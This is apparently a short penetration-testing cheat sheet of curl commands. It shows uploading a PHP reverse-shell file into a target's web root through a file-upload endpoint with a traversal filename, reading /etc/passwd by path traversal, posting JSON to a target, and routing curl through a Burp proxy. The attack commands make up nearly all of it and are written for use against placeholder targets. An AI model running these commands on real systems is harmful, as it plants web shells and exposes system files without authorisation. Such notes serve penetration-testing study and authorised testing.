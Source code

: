 
Upload shell using post request and additional parameters:
---
```bash
curl -X POST "$TARGET_URL/file-upload" -F "file=@rev.php.txt" -F "filename=/var/www/html/rev.php"
```


```bash
curl --header "Content-Type: application/json" --request POST -d @data.json http://$TARGET_IP
```

```bash
curl --path-as-is http://$TARGET_URL/../../../../../../../../etc/passwd
```

Use burl (curl through burp on localhost)
```bash
alias burl="curl -x localhost:8080 -k "
```